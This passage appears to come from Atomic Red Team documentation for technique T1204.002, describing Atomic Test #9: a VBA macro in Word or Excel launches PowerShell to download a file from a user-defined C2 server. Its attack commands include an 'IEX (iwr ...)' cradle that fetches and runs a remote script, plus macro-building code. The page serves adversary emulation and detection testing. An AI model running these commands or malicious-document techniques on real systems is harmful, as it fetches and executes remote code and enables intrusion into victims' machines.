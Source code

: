 ```powershell
Stop-Process -name PotentiallyUnwanted
Remove-Item #{pua_file} -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #9 - Office Generic Payload Download

This Test uses a VBA macro to launch Powershell which will download a file from a user defined web server.
Required input agruments are c2_domain and file_name
Execution is handled by [Invoke-MalDoc](https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.
Example for c2 server located at 127.0.0.1 for the file test.txt which is nested below the parent directory in the tests/my-test folder
Example input args for file in root directory c2-domain = 127.0.0.1, file-name = test.txt

**Supported Platforms:** Windows

**auto_generated_guid:** 5202ee05-c420-4148-bf5e-fd7f7d24850c

#### Inputs:

| Name                                                                                                   | Description                                                                                                          | Type | Default Value                                                      |
| ------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------- | ---- | ------------------------------------------------------------------ |
| macro_path                                                                                             | Location of file which will be converted to a VBA macro                                                              | path | PathToAtomicsFolder/T1204.002/src/test9-GenericPayloadDownload.txt |
| c2_domain                                                                                              | This required variable points to a user defined HTTP server that will host the file_name in the c2_parent_directory. | url  |                                                                    |
| c2_parent_directory                                                                                    | Parent directory where you have the "malicious" file on c2_domain server.                                            |
| Will default to root directory. Forward slashes are not needed at begining or ending of directory path | path                                                                                                                 |      |
| file_name                                                                                              | "Malicious" file to be downloaded.                                                                                   |

This required file needs to be place on the user provided c2 domain
Example file can be found at PathToAtomicsFolder/T1204.002/src/test9-example-payload.txt | string | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/test9-example-payload.txt|
| ms_product | Maldoc application Word or Excel | string | Word|

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macroCode = Get-Content "#{macro_path}" -Raw
$URL = "#{c2_domain}" + "/" + "#{c2_parent_directory}"
$macroCode = $macroCode -replace 'serverPath', $URL -replace 'fileName', "#{file_name}"
Invoke-MalDoc -macroCode $macroCode -officeProduct "#{ms_product}"
```
